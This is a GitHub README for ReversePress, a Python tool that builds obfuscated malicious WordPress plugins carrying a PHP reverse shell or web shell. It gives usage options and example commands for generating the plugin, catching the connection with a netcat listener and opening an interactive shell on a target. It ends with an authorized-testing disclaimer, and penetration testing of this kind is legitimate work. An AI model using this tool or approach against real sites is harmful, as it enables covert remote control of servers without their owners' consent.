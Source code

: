 
# ReversePress
ReversePress is a Python-based tool designed for generating malicious WordPress plugins. It takes a PHP reverse shell and embeds it into a custom, obfuscated WordPress plugin. The plugin is then compressed into a zip archive ready for deployment. The tool also provides the ability to listen for incoming connections after the plugin has been deployed.

## Features
-   Embeds a PHP reverse shell into a custom WordPress plugin
-   Supports of custom PHP reverse shells
-   Obfuscates the plugin code to avoid detection
-   Compresses the plugin into a zip archive ready for deployment
-   Provides the ability to listen for incoming connections after the plugin has been deployed
-   Provides the ability to start an interactive web shell session on the target

## Usage
    usage: reversePress.py [-h] [-i INPUT] [-l] [-o OUTPUT] [-p PORT] host

    positional arguments:
      host                          host to connect back to
    
    options:
      -h, --help                    show this help message and exit
      -i INPUT, --input INPUT       custom PHP reverse shell file to add to the plugin
      -l, --listener                start a netcat listener after generating the plugin
      -o OUTPUT, --output OUTPUT    name of the file to be generated
      -p PORT, --port PORT          port to listen on
      -w, --webshell                use a PHP web shell
      -x TARGET, --xinteractive TARGET
                                    start a interactive web shell on the target

## Getting Started
1.  Clone the repository: `git clone https://github.com/MachadoOtto/reversePress.git`
2.  Install Python 3 if not already installed.
3.  If using the Netcat listener, ensure that Netcat is installed and available in the system path.
4.  Run reversePress.py with the desired arguments.

## Examples
1.  Basic usage with default port:

        python reversePress.py HOST_IP
    
2.  Use a custom PHP reverse shell:

        python reversePress.py HOST_IP -i /path/to/reverse_shell.php

3.  Custom port and start a Netcat listener:

        python reversePress.py HOST_IP -p 1234 -l

4.  Use a PHP web shell and start the Interactive Web Shell session on the target:
        
        python reversePress.py HOST_IP -w -x http://TARGET_IP

## License

This project is licensed under the MIT License. See the [LICENSE](https://raw.githubusercontent.com/MachadoOtto/reversePress/main/LICENSE) file for details.

## Disclaimer
This script is provided as-is, without any warranties or guarantees. Use this tool responsibly and only on systems and applications you are authorized to test. If you use it for evil you should feel bad :(

- The Monada 🙈🙉🙊
